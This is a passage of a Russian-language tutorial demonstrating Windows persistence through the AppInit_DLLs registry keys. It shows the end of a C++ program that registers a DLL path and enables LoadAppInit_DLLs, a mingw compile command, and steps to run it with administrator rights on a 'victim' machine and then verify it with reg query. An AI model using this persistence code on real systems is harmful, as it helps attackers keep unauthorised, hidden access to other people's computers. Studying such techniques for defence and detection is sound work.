 ```cpp
    0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, установка ключа реестра `LoadAppInit_DLLs` в значение `1` также важна.    

Скомпилируем `pers.cpp`:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/55/2022-05-16_01-22.png){width="80%"}    

### демонстрация

Давайте посмотрим, как всё работает! Сбрасываем файлы на машину жертвы (`Windows 10 x64` в моем случае).

Затем запускаем с правами администратора:

```powershell
.\pers.exe
```

и выполняем команду для проверки:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
 /s
reg query \
"HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\
Windows" /s
```
